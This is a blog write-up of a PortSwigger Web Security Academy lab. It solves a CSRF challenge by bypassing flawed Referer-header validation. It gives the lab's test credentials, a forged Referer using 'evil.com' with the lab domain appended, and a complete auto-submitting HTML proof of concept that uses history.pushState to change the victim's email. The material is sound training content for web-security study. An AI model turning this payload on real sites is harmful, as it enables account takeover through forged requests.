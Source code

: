 ```yaml
---
author: Nithissh S
pubDatetime: 2024-10-04T15:22:00Z
modDatetime: 2024-10-04T09:12:47.400Z
title: CSRF with broken Referer validation
slug: csrf-portswigger-lab-8
featured: false
draft: false
tags:
  - BSCP
  - CSRF
description:
  This lab's email change functionality is vulnerable to CSRF. It attempts to detect and block cross domain requests, but the detection mechanism can be bypassed. To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address. You can log in to your own account using the following credentials `wiener:peter`   
---
```


## Objective 

This lab's email change functionality is vulnerable to CSRF. It attempts to detect and block cross domain requests, but the detection mechanism can be bypassed.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: `wiener:peter` 

## Solution 

Just like the other CSRF labs, we have a unctionality to update the email by looking into `My Account` tab 

![](../../assets/images/bscp/csrf/csrf-26.png)

I thought of removing the values of `Referrer` header and analyse the response.. So I did this by removing the values of the particular, sent the request and responded with `"Invalid referer header"`

![](../../assets/images/bscp/csrf/csrf-27.png)

In the `Referrer` header, I replaced with the following `http://evil.com/@0a78008403f3e9d780764e88003000c0.web-security-academy.net` and the reason is `evil.com` is some random string from my side and for example I gave it.. Then you can observe a lab URL that's the thing being validated here and sent the request, as a response it responded with a `302` meaning our email got updated 

![](../../assets/images/bscp/csrf/csrf-28.png)

Everything goes well right, now we can build a CSRF POC and update the `pushState` by adding our payload that we used in the referrer header 

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a78008403f3e9d780764e88003000c0.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="attacker&#46;s&#64;outlook&#46;in" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/@0a78008403f3e9d780764e88003000c0.web-security-academy.net');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Now, In the exploit server.. Paste the following POC and then in the header.. Add like `Referrer-Policy: unsafe-url` where it will allow the full url through the referrer header.. Then `Store -> Deliver the exploit to victim` which will actually solves the lab 

![](../../assets/images/bscp/csrf/csrf-29.png)